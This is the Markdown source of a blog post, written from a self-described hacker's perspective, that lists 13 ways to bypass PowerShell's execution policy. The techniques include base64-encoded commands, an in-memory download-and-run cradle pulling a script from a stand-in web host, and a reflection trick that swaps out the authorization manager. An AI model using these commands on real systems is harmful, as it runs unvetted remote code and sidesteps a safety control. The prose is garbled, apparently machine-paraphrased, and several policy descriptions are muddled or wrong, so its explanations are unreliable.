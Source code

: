 ```yaml
---
layout: post
title:  "How to Bypass PowerShell Execution Policy"
date:   2020-09-24 20:24:26 -0700
categories: PowerShell Execution Policy
---
```


<h1><b>Intro</b></h1>

PowerShell is an integral part of every windows. From hacker’s perspective, it can be an effective weapon. Even the best-laid plans can be destroyed by its execution policies. On the other hand, there are a number of strategies that can be used to circumvent the execution strategy of PowerShell. 

<h3><b>PowerShell Execution Policy Overview</b></h3>
The object of the execution regulations for the PowerShell is to monitor how to configure files are to be loaded and how scripts are executed. It is a safety feature which helps prevent the execution of malicious scripts. On windows computers, the rules can be set at the level of the computer, user level, and session level. It is necessary to remember that the execution protocol is not designed to be safe. It merely protects users from causing harm accidentally. It can be done in many ways. The execution policies are 7 steps that are the following:

Unrestricted: this is the main procedure for computers not running windows. It ensures that scripts are executed with an alert.

Restricted: for windows computers this is the main which blocks the execution of scripts but required individual actions. 

Bypass: this ensures that all the scripts will run and no alerts shown or given. 
All signed: the required a reputable the creator to sign all the scripts and arrangement files, including the ones that are generated on the local computer. 

Remote signed: this is one of the main default policies on the windows servers. Only files accessed out of the internet that need a signature. 

Default: in here it actually sets the main policy of implementation. 

Undefined: where the existing scope does not contain a policy package if everything is unknown, which are limited defaults to the execution regulations.


{% highlight ruby %}

Get-ExecutionPolicy

{% endhighlight %}

<h4><b>Step 1: Bypass Flag </b></h4>
The bypass flag: using this is maybe the simplest way to transfer the execution policy. Meanwhile the script will run without alerts.

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Bypass -File .\script.ps1
{% endhighlight %}

<h4><b>Step 2: Unrestricted Flag</b></h4>
Unrestricted flag: is close to the previous method. They are similar in executing the script. The only difference is that the script will run with alerts. 

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Unrestricted -File .\script.ps1
{% endhighlight %}

<h4><b>Step 3: Command Switch</b></h4>
Command switch: in order to issue instructions, we should use this method to execute straight the script. For basic scripts, this will work; however, the more complicated scripts it will typically make mistakes.

{% highlight ruby %}

PowerShell -command "Write-Host 'This is a test.'"

{% endhighlight %}


<h4><b>Step 4: Encoded Command Switch</b></h4>
Encoded command switch: Analogous to the previous method. This approach encodes the script as an encoded base string. in addition, being vague which will help eliminate parser mistakes. 

{% highlight ruby %}
$command = "Write-Host 'This is a test.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
{% endhighlight %}

<h4><b>Step 5: Invoke-Command</b></h4>
Invoke command: this method is good because when the PowerShell remote control is allowed, it should run the difficult commands against machines.

{% highlight ruby %}
invoke-command -scriptblock {Write-Host "This is a test."}
{% endhighlight %}

<h4><b>Step 6: Invoke-Expression</b></h4>
Invoke expression: here form can be used to pip and run the contents of our documents.

{% highlight ruby %}
Get-Content .\script.ps1 | Invoke-Expression
{% endhighlight %}

<h4><b>Step 7: Download from URL</b></h4>
Download from URL: powershell should run to install a script from the hacker’s computer or the internet and then run it without copying to the disk.

{% highlight ruby %}

PowerShell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"

{% endhighlight %}

<h4><b>Step 8: Paste</b></h4>
Another way to execution policy is to directly copy the script into the virtual copy and paste it. Hence, this is helpful for installing short scripts that are not too difficult.

{% highlight ruby %}
Write-Host "This is a test."
{% endhighlight %}

<h4><b>Step 9: Echo & Pipe</b></h4>
Echo and pipe: Reflecting the script to the normal powershell input.

{% highlight ruby %}
Echo Write-Host "This is a test." | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 10: Read & Pipe</b></h4>
Read and pipe: reading the output of the script and pipe it to the normal powershell input, equivalent to the previous method.

{% highlight ruby %}
Get-Content .\script.ps1 | PowerShell -noprofile -
{% endhighlight %}

<h4><b>Step 11: Process Scope</b></h4>
Process of scope: The execution policy may be implemented at multiple stages, including the method that is actually managed. As with the current phase, we should change the execution policy.

{% highlight ruby %}
Set-ExecutionPolicy Bypass -Scope Process
{% endhighlight %}

<h4><b>Step 12: Current User Scope</b></h4>
Current user scope: this approach is identical to the procedure scope, except for the current user, it adjusts the execution strategy. This works under the hood by changing a registry key.

{% highlight ruby %}
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
{% endhighlight %}

<h4><b>Step 13: Authorization Manager Swap</b></h4>
Swap of authorization manager: a functionality of PowerShell is effectively overridden by the final approach we would discuss. When the method is named the authorization manager feature; it will be replaced with a null number, which will lead to unregulated execution policy and allow the script to work.

{% highlight ruby %}
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))} Disable-ExecutionPolicy .\script.ps1
{% endhighlight %}
